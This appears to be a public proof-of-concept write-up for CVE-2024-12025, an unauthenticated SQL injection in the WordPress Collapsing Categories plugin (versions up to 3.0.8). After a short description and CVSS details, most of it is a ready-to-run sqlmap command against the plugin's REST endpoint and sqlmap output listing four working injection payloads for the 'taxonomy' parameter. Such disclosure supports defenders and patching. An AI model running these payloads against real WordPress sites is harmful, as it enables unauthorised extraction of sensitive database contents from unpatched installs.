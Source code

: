 # CVE-2024-12025
Collapsing Categories <= 3.0.8 - Unauthenticated SQL Injection

# Description

The Collapsing Categories plugin for WordPress is vulnerable to SQL Injection via the 'taxonomy' parameter of the /wp-json/collapsing-categories/v1/get REST API in all versions up to, and including, 3.0.8 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.  This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

## Details

- **Type**: plugin
- **Slug**: collapsing-categories
- **Affected Version**: 3.0.8
- **CVSS Score**: 7.5
- **CVSS Rating**: High
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
- **CVE**: CVE-2024-12025
- **Status**: Active

POC
---

```
python3 sqlmap.py -u 'https://wp-dev.ddev.site:443/wp-json/collapsing-categories/v1/get?taxonomy=category' --level=3 --risk=3 --dbms='MySQL'
```


```
GET parameter 'taxonomy' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 47 HTTP(s) requests:
---
Parameter: taxonomy (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: taxonomy=category') AND 7946=7946 AND ('HpEV'='HpEV

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: taxonomy=category') AND (SELECT 7250 FROM(SELECT COUNT(*),CONCAT(0x7176707171,(SELECT (ELT(7250=7250,1))),0x7162706a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND ('hZXr'='hZXr

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: taxonomy=category') AND (SELECT 2450 FROM (SELECT(SLEEP(5)))BSAn) AND ('lfDY'='lfDY

    Type: UNION query
    Title: Generic UNION query (NULL) - 12 columns
    Payload: taxonomy=category') UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176707171,0x6e42754559704d7a675861454b4c58444e466968774b4d664161795758694376634a654e68594a58,0x7162706a71)-- -
---
[14:14:52] [INFO] the back-end DBMS is MySQL
web application technology: Nginx
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
```
